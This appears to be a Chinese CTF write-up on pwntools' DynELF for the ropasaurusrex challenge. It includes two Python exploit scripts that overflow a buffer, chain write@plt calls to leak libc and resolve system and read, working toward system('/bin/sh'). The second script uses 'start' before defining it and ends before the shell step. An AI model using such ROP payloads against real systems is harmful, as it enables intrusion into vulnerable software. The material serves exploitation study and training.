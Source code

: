 使用的基本条件：

- 目标程序存在可以泄露libc空间信息的漏洞，如read@got就指向libc地址空间内；
- 目标程序中存在的信息泄露漏洞能够反复触发，从而可以不断泄露libc地址空间内的信息。

## DynELF的使用————write函数

write函数原型是`write(fd, addr, len)`，即将addr作为起始地址，读取len字节的数据到文件流fd（0表示标准输入流stdin、1表示标准输出流stdout）。write函数的优点是可以读取任意长度的内存信息，即它的打印长度只受len参数控制，缺点是需要传递3个参数，特别是在x64环境下，可能会带来一些困扰。

例`~/PlaidCTF 2013 ropasaurusrex/ropasaurusrex`,程序只有一个函数，有一个明显的溢出，但是got表中，没有system函数，也没有`int 80h/syscall`。这种情况就可以使用DynELF来leaklibc，进而获取system函数在内存中的地址。

```python
from pwn import *

p=process('./ropasaurusrex')

def leak(addr):
    payload='A'*0x8c+p32(0x0804830C) + p32(0x080483F4) + p32(1) +p32(addr) + p32(8)
    # 0x0804830C为write函数的地址，0x080483F4为write函数的返回地址(这里使用的是调存在溢出的函数的地址)，也可以是start段的地址0x08048340，或者main函数的地址0x0804841D
    p.send(payload)
    data = p.read(addr,4)
    log.debug("%#x => %s" % (addr,(data or '').encode('hex')))
    return data

d = DynELF(leak,elf=ELF('./ropasaurusrex'))

system_addr = d.lookup('system','libc')
log.info("system_addr = %#x",system_addr)
```

同样的还可以通过这个DynELF类的实例泄露read函数的真正内存地址，用于读取”/bin/sh”字符串到内存中，以便于执行system(“/bin/sh”)。最终脚本如下：
因为后面还要利用程序的溢出来获取shell，所以此时如果在leak函数中write函数的返回地址设为函数sub_80483F4的话会导致后续的堆栈不平衡，从而获取shell失败，即泄露过程中由于循环造成的溢出导致栈结构发生不可预料的变化，此时可以调用start函数来重新开始程序以恢复栈。

```python
    from pwn import *

    p=process('./ropasaurusrex')
    elf = ELF('./ropasaurusrex')

    write_plt = elf.symbols['write']

    def leak(addr):
        payload='A'*0x8c+p32(write_plt) + p32(start) + p32(1) +p32(addr) + p32(8)
        # payload='A'*0x8c+p32(write_plt) + p32(main) + p32(1) +p32(addr) + p32(8)
        p.send(payload)
        data = p.read(addr,4)
        log.debug("%#x => %s" % (addr,(data or '').encode('hex')))
        return data

    bss_addr = 0x08049628
    func = 0x080483F4
    start = 0x08048340
    main = 0x0804841D

    d = DynELF(leak,elf=ELF('./123'))
    # d = DynELF(leak,elf=elf)

    system_addr = d.lookup('system','libc')
    log.info("system_addr = %#x",system_addr)
    read_addr = d.lookup('read','libc')
    log.info("read_addr = %#x",read_addr)
    # read_plt = elf.symbols['read']
```
